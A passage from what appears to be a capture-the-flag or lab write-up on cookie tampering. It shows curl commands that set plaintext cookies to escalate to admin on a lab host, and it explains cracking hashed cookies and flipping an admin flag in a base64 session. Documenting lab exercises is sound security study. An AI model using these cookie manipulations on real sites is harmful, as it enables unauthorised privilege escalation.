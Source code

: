 #### 4) Cookie Tampering (Plaintext, Hashes, Encoding)

I interacted with the cookie test endpoint to validate privilege toggles via cookie manipulation.

Baseline:

```bash
curl http://10.201.81.187/cookie-test
# Not Logged In
```

User session (plaintext cookies):

```bash
curl -H "Cookie: logged_in=true; admin=false" http://10.201.81.187/cookie-test
# Logged In As A User
```

Admin session (plaintext cookies):

```bash
curl -H "Cookie: logged_in=true; admin=true" http://10.201.81.187/cookie-test
# Logged In As An Admin
```

I also reviewed hashed and encoded cookie patterns:

- Hashes (e.g., MD5/SHA‑1/SHA‑256/SHA‑512) can be recognized and sometimes reversed via lookup services like `crackstation.net` when they represent common values.
- Encoded session values (e.g., base64) are reversible; I decoded a sample and toggled the `admin` flag before re‑encoding.

Example base64 session manipulation:

```text
Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
```

Decoded JSON: `{ "id": 1, "admin": false }`
After editing to `true` and re‑encoding, the cookie elevated privileges in this demo context.

Evidence:

![Cookie test – baseline](../screenshots/cookie-baseline.png)

![Cookie test – user](../screenshots/cookie-user.png)
